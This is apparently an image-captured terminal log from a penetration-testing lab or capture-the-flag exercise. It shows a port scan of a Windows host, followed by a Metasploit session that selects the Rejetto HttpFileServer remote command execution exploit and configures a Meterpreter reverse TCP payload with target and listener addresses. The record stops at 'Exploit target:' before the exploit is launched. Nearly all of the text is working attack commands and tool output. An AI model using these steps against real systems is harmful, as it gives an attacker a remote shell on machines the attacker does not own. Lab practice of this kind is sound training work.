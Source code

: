 ```
10.0.22.98  139    tcp    netbios-ssn        open   Microsoft Windows netbios-ssn
10.0.22.98  445    tcp    microsoft-ds       open   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
10.0.22.98  3389   tcp    ssl/ms-wbt-server  open   
10.0.22.98  49152  tcp    msrpc              open   Microsoft Windows RPC
10.0.22.98  49153  tcp    msrpc              open   Microsoft Windows RPC
10.0.22.98  49154  tcp    msrpc              open   Microsoft Windows RPC
10.0.22.98  49155  tcp    msrpc              open   Microsoft Windows RPC

```

```
msf6 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use exploit/windows/http/rejetto_hfs_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.22.98       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.4       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

```